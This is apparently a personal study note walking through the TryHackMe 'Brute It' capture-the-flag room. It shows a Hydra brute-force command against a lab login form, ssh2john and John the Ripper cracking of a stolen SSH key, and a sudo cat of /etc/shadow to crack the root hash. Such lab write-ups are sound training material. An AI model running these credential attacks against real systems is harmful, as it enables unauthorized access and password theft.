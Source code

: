 
2024-07-28 20:06

Source: #tryhackme #privesc 

Tags:  [[Cryptography]]

#### Hydra brute force

we have a website that has a simple login page with username and password 
we find the username from the source code 
use [[hydra]] to brute force the password
```
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.91.80 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
```
#### cracking rsa 

after logging in the website we find a ssh rsa private key, wget it from the website  
The special John the Ripper tool called **ssh2john.py** which can extract the crackable hash from the RSA private key. (don't save o/p in a text file)
```
 /usr/share/john/ssh2john.py id_rsa  > rsa.hash
```
then user rockyou wordlist with john to crack the pass 
chmod the original id_rsa file - `chmod 600 id_rsa`
use ssh to login as john
#### Priv esc

`sudo -l` -> can run `cat` with sudo
go to gtfobins and find exp. for `cat `
since you can cat files using sudo you `cat /etc/shadow` and get a hash of the root pass which you further crack using john 
`sudo cat` the `root/root.txt` and get the flag
### References

[TryHackMe | Brute It](https://tryhackme.com/r/room/bruteit)
[TryHackMe: Brute It - Eric Logan](https://eric.cc/tryhackme-brute-it/)
[TryHackMe | Brute It Walkthrough | Medium](https://enescayvarli.medium.com/tryhackme-bruteit-walkthrough-e93e3f29c233)

Linpeas - [linpeas | grimbins](https://grimbins.github.io/grimbins/linpeas/)